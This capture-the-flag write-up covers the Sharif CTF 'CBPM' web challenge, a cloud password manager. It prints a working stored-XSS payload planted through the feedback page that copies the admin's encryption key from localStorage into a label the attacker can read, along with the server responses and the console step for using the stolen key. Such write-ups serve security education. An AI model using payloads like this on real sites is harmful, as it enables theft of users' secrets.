


# CBPM (web 300)

The participants were given an online cloud based password manager which had several options such as password change, feedback and etc. After spending some time on the task, we realized the workflow. The important consequences:
+ Login can be done by any username.
+ Admin user has a password labeled "flag"
+ In order to reveal the stored passwords, a correct password of the user is required

+ Encryption/Decryption KEY is generated by user’s password.
+ KEY is saved on browser as it’s written on the site “Your decrypted master encryption key (KEY) is available in your browser and its encrypted version is stored on the server”
+ The exact location of `KEY` is in `localStorage` in browser 

+ In order to decrypt flag, admin’s `password` or `KEY` is required.
+ The “feedback page” is prone to Cross Site Scripting without any protection or filtering.

**Attack scenario**: sending malicious payload to the admin users through feedback option, forcing admin to reveal his key.
In term of exploitation, there was a problem indicated in question: By the way, admin protects its machine with a strong and restrictive firewall...
Firewall means that admin couldn’t send request to internet. So our solution was to force admin to make a new label name with his local KEY. The payload used:
```
<script>
var b = new XMLHttpRequest();
b.open("POST", "/put.php", true);
b.send('{"id":"eyJ0ZWFtaWQiOiIxNDgifS4xY0lFWFguWDN0TXBxcGNuZlZFcDJ2UmZmUVBFdU1LbWVr","prelabel":"","newlabel":"'+localStorage.KEY+'","encpass":"a","iv":"a"}');
</script>
```
Following URL held the labels of a user.
```
http://ctf.sharif.edu:8081/list.php?id=eyJ0ZWFtaWQiOiIxNDgifS4xY0laUDcuNEtIbFcwaGpoRGc5dTlJcVIwQjJjMzN2WW5R
```
Admin’s labels before sending malicious payload:
```
{"meta":{"ok":true,"code":0,"messages":[]},"payload":{"labels":["flag"]}}
```
Afterwards:
```
{"meta":{"ok":true,"code":0,"messages":[]},"payload":{"labels":["bGFDMGZYWnZORG9hc21vM0hvZHNkUjE2YjJGeU1yMUM=","flag"]}}
```
So the KEY was grabbed. In the console of browser:
```
localStorage.setItem('KEY', 'bGFDMGZYWnZORG9hc21vM0hvZHNkUjE2YjJGeU1yMUM=')
```
And the flag was revealed: 

https://twitter.com/yshahinzadeh
